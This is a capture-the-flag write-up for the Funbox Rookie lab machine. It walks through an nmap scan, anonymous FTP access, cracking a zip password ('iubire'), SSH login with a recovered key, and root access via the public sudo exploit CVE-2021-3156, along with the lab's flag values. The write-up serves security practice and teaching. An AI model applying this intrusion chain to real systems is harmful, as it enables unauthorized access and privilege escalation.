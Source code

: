 ```yaml
---
title: Funbox Rookie
categories: [Proving Grounds Play, Funbox]
tags: [FTP, Public Exploit, Unzip, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:512/1*hN7YDho1p8S7uOdLjj-8Mw.png
  alt:  Funbox-Rookie Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [Funbox : Rookie](https://www.vulnhub.com/entry/funbox-rookie,520/)
<br>
Boot2Root ! This can be a real life scenario if rockies becomes admins. Easy going in round about 15 mins. Bit more, if you are find and stuck in the rabbit-hole first.
<br>
This VM is created/tested with Virtualbox. Maybe it works with vmware.
<br>
If you need hints, call me on twitter: @0815R2d2
<br>
Have fun...
<br>
This works better with VirtualBox rather than VMware.
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.225.107
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ sudo nmap -sC -sV -T4 -oN Nmap_results.txt 192.168.225.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-08 15:37 IST
Nmap scan report for 192.168.225.107
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9:46:7d:fe:0c:4d:a9:7e:2d:77:74:0f:a2:51:72:51 (RSA)
|   256 15:00:46:67:80:9b:40:12:3a:0c:66:07:db:1d:18:47 (ECDSA)
|_  256 75:ba:66:95:bb:0f:16:de:7e:7e:a1:7b:27:3b:b0:58 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/logs/
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled.png)

Lets check `robots.txt` file →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%201.png)

## FTP Enumeration ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ ftp 192.168.225.107 21
Connected to 192.168.225.107.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.225.107]
Name (192.168.225.107:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.178 !
230-
230-The local time is: Sat Jul 08 10:10:10 2023
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||7526|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..
-rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
ftp>
```

Now I downloaded all the files into the attackers machine →

```bash
wget -r ftp://192.168.225.107
```

Now lets dig into the files →

with the help of fcrackzip tool I cracked the zip passwords →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%202.png)

```bash
PASSWORD FOUND!!!!: pw == iubire
```

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ unzip tom.zip 
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: id_rsa
```

## SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ ssh tom@192.168.225.107 -i id_rsa 
The authenticity of host '192.168.225.107 (192.168.225.107)' cant be established.
ED25519 key fingerprint is SHA256:ZBER3N78DusT56jsi/IGcAxcCB2W5CZWUJTbc3K4bZc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.225.107' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul  8 10:45:19 UTC 2023

  System load:  0.0               Processes:             164
  Usage of /:   75.8% of 4.37GB   Users logged in:       0
  Memory usage: 38%               IP address for ens256: 192.168.225.107
  Swap usage:   0%

30 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$
tom@funbox2:~$ cat local.txt
866bc12b3cc3f88f2bcfb8d091713b46
tom@funbox2:~$
```

Now lets see the Sudo version →

```bash
tom@funbox2:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
tom@funbox2:~$
```

Lets search an exploit for this Sudo version →

I got this exploit of [**CVE-2021-3156 (Sudo Baron Samedit)**](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) and I used `exploit_nss.py` exploit **→**

```bash
tom@funbox2:/tmp$ nano exp.py
tom@funbox2:/tmp$ chmod +x exp.py
tom@funbox2:/tmp$ python3 exp.py
# whoami
root
# /bin/bash -i
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@funbox2:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(tom)
root@funbox2:/tmp# whoami
root
root@funbox2:/tmp# cd /root
root@funbox2:/root# ls -al
total 32
drwx------  4 root root 4096 Jul  9 09:51 .
drwxr-xr-x 24 root root 4096 Oct 14  2020 ..
-rw-------  1 root root    0 Oct 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Sep 15  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 25  2020 .ssh
-rw-r--r--  1 root root   32 Oct 14  2020 flag.txt
-rw-------  1 root root   33 Jul  9 09:51 proof.txt
root@funbox2:/root# cat flag.txt 
Your flag is in another file...
root@funbox2:/root# cat proof.txt
7ca58542dc8a0d0181aaf812ae214c69
root@funbox2:/root#
```

Now I am root !!